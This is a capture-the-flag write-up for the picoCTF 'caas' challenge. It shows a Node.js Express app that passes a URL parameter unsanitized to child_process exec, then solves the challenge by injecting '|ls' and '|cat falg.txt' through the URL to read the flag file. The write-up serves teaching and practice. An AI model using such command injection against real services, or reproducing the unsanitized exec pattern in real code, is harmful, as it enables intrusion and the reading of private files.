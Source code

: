 # caas
Liam Reidy

**Instructions:** Now presenting cowsay as a service.

There is a cute cow that will echo our message:
```
 _________
< message >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

We are also given the js source:
```js
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```

Clearly the line line with `exec` is our target, although I would have tried to escape the message regardless.

`;` didn't work, so i asked chatgpt how else to escape it

```
Injecting special characters like &, |, or >, <

Special characters in the shell have various functions:

    & runs commands in the background.
    | pipes output to another command.
    > redirects output to a file (could be used to overwrite files).
    < redirects input from a file.
    () groups commands together.
```

Piping the message (command) into ls would work, even though we don't care what data is piped from the first part.


`https://caas.mars.picoctf.net/cowsay/test|ls`


```
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

It worked! Now to `cat` the flag:

`https://caas.mars.picoctf.net/cowsay/test|cat%20falg.txt`

`picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`
